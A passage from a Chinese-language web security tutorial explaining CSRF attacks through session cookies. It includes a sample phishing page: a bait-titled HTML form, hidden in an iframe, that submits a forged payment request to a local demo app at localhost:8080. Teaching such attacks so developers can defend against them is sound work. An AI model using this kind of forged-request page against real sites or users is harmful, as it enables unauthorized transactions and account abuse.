### CSRF跨站请求伪造攻击
CSRF是我们要介绍的第一种攻击形式 这种攻击方式非常好理解

<img src="https://image.itbaima.net/markdown/2023/07/01/4ibrwFIPnSE81lx.png"/>

我们时常会在QQ上收到别人发送的钓鱼网站链接 只要你在上面登录了你的QQ账号 那么不出意外 你的号已经在别人手中了 实际上这一类网站都属于恶意网站
专门用于盗取他人信息 执行非法操作 甚至获取他人账户中的财产 非法转账等 而这里 我们需要了解一种比较容易发生的恶意操作 从不法分子的角度去了解整个流程

我们在JavaWeb阶段已经了解了Session和Cookie的机制 在一开始的时候 服务端会给浏览器一个名为JSESSIONID的Cookie信息作为会话的唯一凭据
只要用户携带此Cookie访问我们的网站 那么我们就可以认定此会话属于哪个浏览器用户 因此 只要此会话的用户执行了登录操作 那么就可以随意访问个人信息等内容

我们来尝试模拟一下这种操作 来编写一个钓鱼网站:

```html
                    <!DOCTYPE html>
                    <html lang="en">
                    <head>
                        <meta charset="UTF-8">
                        <title>坤坤炒粉放鸡精视频在线观看</title>
                        <script src="https://unpkg.com/axios@1.1.2/dist/axios.min.js"></script>
                    </head>
                    <body>
                    <iframe name="hiddenIframe" hidden></iframe>
                    <form action="http://localhost:8080/mvc/pay" method="post" target="hiddenIframe">
                        <input type="text" name="account" value="黑客" hidden>
                        <button type="submit">点击下载全套视频</button>
                    </form>
                    </body>
                    </html>
```


















